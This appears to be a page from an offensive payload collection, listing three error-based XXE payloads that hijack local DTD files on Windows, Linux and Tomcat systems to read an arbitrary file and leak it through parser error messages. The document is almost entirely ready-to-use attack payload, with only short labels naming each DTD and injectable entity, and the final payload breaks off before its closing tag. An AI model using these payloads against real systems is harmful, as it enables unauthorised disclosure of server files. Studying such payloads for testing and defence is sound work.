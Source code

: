 **DTD File:** `C:\Windows\System32\wbem\xml\cim20.dtd`

**Injectable entity:** `%CIMName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">

    <!ENTITY % CIMName '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/yelp/dtd/docbookx.dtd`

**Injectable entity:** `%ISOamsa`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 




**DTD File:** `/usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd`

**Injectable entity:** `%URI`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">

    <!ENTITY % URI '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
```